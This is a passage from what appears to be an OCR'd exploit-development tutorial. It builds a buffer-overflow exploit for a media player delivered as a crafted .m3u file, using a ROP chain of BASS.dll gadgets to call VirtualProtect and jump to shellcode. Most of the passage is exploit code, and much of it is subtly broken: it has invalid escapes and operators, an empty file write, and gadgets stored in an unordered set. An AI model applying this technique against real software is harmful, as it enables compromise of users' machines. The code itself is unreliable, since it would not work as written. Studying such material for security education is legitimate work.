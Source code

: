 ```python
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

but we will not run it yet.

Since we are close to finishing, let’s add two last instructions.

We will add the `PUSHAD` instruction. Also, we will need `JMP ESP` immediately after it, as the `0x201` bytes of the stack should become executable after the `VirtualProtect` call, and we will need to jump to that area.

In conclusion, we include the following gadgets:

- `0x1001d7a5` - PUSHAD, RET
- `0x10022aa7` - JMP ESP Address

The exploit is revised, and the placeholder is eliminated as the chain is finished:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]

        0x1001d7a5, # pushad, ret
        0x10022aa7, # jmp esp address
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
```